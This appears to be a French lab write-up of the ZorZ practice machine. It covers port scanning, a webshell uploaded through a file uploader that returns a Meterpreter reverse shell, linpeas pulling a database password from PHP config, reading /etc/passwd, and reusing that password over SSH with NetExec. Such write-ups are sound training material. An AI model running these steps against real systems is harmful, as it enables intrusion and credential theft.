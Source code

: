 # ZorZ

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u53@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.165
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.165...100%
[+] Scan Nmap 192.168.56.165...100%
 
[+] 80/tcp open
[+] 22/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.165-tcp.html       |
==========================================================
```

&nbsp;

Le serveur est un `uploader` de fichier

![Capture du 2025-03-16 17-27-58](https://github.com/user-attachments/assets/690207a6-602d-46b7-9ec6-c231491a6990)

&nbsp;

**<span style="color: #dddddd;">💥</span> Metasploit - webshell**

Connexion  la webshell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.165
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.165:52845) at 2025-03-16 17:27:25 +0100

(Meterpreter 1)(/var/www/html/uploads3) >
```

&nbsp;

&nbsp;<span style="color: #dddddd;">🤖</span> **Linpeas**

Voyons si `linpeas` trouve des mots de passe

```
www-data@zorz:/tmp$ sh linpeas.sh

╔══════════╣ Searching passwords in config PHP files
$dbpass='toor2600root';
$dbuser='phpmyadmin';

```

&nbsp;

Énumération des utilisateurs

```
www-data@zorz:/tmp$cat /etc/passwd | grep 'bin/bash'
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user,,,:/home/user:/bin/bash
```

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test du mot de passe sur les 2 utilisateurs

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.165 -u user.txt -p 'toor2600root' --sudo-check
SSH         192.168.56.165  22     192.168.56.165   [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         192.168.56.165  22     192.168.56.165   [-] root:toor2600root
SSH         192.168.56.165  22     192.168.56.165   [+] user:toor2600root (Pwn3d!) Linux - Shell access!

```

&nbsp;

Identifiant trouver

| Users | Password |
| --- | --- |
| user | toor2600root |

&nbsp;

&nbsp;

&nbsp;

&nbsp;
